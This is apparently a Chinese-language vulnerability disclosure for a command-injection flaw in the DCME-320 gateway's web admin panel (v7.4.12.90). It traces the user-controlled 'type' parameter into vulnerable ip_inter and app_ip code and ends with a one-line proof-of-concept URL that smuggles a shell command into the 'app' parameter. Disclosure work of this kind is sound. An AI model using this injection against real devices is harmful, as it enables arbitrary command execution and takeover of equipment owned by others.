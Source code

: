 # DCME-320 命令注入漏洞报告  

## 漏洞描述  

DCME-320 网关web管理后台存在命令执行漏洞，攻击者可以利用该漏洞在设备上执行任意代码以及控制设备。 

## 影响版本  

- v7.4.12.90  

## 代码审计

首先用户可以控制type

<img width="492" alt="image" src="https://github.com/user-attachments/assets/454b2f26-c630-45fb-941c-f1cf634d8b74">

通过type值可以进入包含漏洞的逻辑

case 1的ip_inter有漏洞

<img width="439" alt="image" src="https://github.com/user-attachments/assets/01cff311-62b8-4d9d-80df-c19fec857d6f">

case 5的app_ip也有漏洞

<img width="690" alt="image" src="https://github.com/user-attachments/assets/99ac4b9d-db6a-4e0b-8319-1454bc250019">

跟进两个方法

<img width="482" alt="image" src="https://github.com/user-attachments/assets/fcdf33dd-b6d7-4a01-b6aa-56b940bc8f59">

## 漏洞利用证明 (POC)  

```plaintext
https://ip/function/audit/newstatistics/ip_inter.php?type=5&app=;echo 123 > 1.txt;
